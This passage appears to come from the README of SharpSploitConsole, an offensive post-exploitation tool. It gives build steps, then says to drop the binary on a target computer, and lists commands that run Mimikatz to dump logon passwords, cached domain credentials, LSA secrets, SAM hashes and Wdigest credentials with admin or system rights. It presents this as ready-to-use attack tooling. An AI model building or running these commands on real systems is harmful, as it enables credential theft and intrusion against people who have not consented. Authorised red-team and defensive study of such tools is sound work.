   In visual studio:

   a. Tools > NuGet Package Manager > Package Manager Console
 
   b. Inside console run:

      Install-Package Costura.Fody
  
   c. Open up notepad and paste the following code below and save it with the name FodyWeavers.xml inside the SharpSploitConsole               directory that holds your bin, obj, properties folders.

        <?xml version="1.0" encoding="utf-8"?>
        <Weavers>
          <Costura />
        </Weavers>

6. Inside visual studio, right click References on the righthand side, choose Add Reference, then browse to the                            SharpSploitConsole/bin/x64/Debug directory where we put our two DLL's, select them and add them.

7. Compile, drop binary on target computer and have fun.

Examples 
========

Note:  All commands are case insensitive

By default all commands can be taken in as command line args, they will be executed and the program will exit (great for remote shells).  This looks something like the following: sharpSploitConsole.exe getSystem logonPasswords.  Alternatively, if you want to use the interactive console mode, you can use the interact command to get a pseudo-interactive shell.

Start interactive console mode:

```Interact```

Mimikatz all the things (does not run DCSync) - requires admin or system:

```Mimi-All```

Runs a specific Mimikatz command of your choice - requires admin or system:

```Mimi-Command privilege::debug sekurlsa::logonPasswords```

Runs the Mimikatz command privilege::debug sekurlsa::logonPasswords - requires admin or system:

```logonPasswords```

Runs the Mimikatz command to retrieve Domain Cached Credentials hashes from registry - requires admin or system:

```LsaCache```

Runs the Mimikatz command to retrieve LSA Secrets stored in registry - requires admin or system:

```LsaSecrets```

Retrieve password hashes from the SAM database - requires admin or system:

```SamDump```

Retrieve Wdigest credentials from registry - requires admin or system:

```Wdigest```

Retrieve current user:

```whoami```

```Username```

```